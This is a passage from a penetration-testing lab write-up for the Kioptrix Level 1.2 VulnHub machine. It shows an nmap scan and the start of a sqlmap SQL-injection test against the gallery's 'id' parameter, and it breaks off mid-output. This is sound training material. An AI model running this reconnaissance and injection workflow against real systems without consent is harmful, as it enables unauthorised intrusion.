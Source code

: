 # Kioptrix Level 1.2 | VulnHub
https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

### 1. Scan
```bash
kali@kali:~$ nmap -A -T4 -p- kioptrix3.com
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 02:47 EDT
Nmap scan report for kioptrix3.com (10.1.1.7)
Host is up (0.0030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
```
The machine is running SSH and Apache.

### 2. Check out the web server
The website is fairly simple with a few pages - a blog, photo gallery and a login form. The gallery CMS is apparently custom. Starting out there, it is clear the gallery is based on a database backend, and images can be sorted by various columns in those tables. Firstly identify an injectable parameter:
```bash
kali@kali:~/Desktop$ sqlmap -r gallery.request 
        ___
       __H__                                                                                                                                                                                        
 ___ ___[)]_____ ___ ___  {1.4.8#stable}                                                            
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|                                 
      |_|V...       |_|   http://sqlmap.org                                                                                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:59:10 /2020-10-28/

[02:59:10] [INFO] parsing HTTP request from 'gallery.request'
[02:59:10] [INFO] testing connection to the target URL
[02:59:11] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[02:59:11] [INFO] checking if the target is protected by some kind of WAF/IPS
[02:59:11] [INFO] testing if the target URL content is stable
[02:59:11] [INFO] target URL content is stable
[02:59:11] [INFO] testing if GET parameter 'id' is dynamic
[02:59:11] [INFO] GET parameter 'id' appears to be dynamic
```